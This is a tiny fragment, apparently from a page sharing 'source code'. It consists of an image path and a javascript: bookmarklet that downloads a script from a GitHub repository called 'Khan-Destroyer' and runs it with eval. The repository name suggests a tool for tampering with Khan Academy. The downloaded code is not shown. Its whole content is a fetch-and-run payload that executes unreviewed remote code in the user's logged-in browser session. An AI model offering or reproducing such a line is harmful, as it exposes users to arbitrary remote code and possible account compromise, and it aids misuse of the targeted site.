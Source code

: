 javascript:fetch("https://raw.githubusercontent.com/Snowxyrzk/Khan-Destroyer/refs/heads/main/Raw").then(t=>t.text()).then(eval);
